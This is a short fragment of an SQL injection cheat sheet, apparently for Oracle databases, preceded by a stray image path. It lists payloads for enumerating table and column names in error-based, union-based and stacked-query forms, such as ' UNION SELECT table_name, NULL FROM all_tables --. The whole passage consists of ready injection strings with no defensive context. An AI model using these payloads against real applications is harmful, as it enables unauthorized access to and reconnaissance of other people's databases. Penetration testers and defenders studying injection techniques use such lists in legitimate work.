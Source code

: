 - Normal
    - `SELECT table_name FROM all_tables;`
- Error based
    - `' AND (SELECT COUNT(*) FROM all_tables) --`
- Union Based
    - `' UNION SELECT table_name, NULL FROM all_tables --`
- Stacked Queries:
    - `; SELECT table_name FROM all_tables; --`

### List columns:

- Normal
    - `SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name';`
- Error based
    - `' AND (SELECT COUNT(*) FROM all_tab_columns WHERE table_name = 'table_name') --`
- Union Based
    - `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name'; --`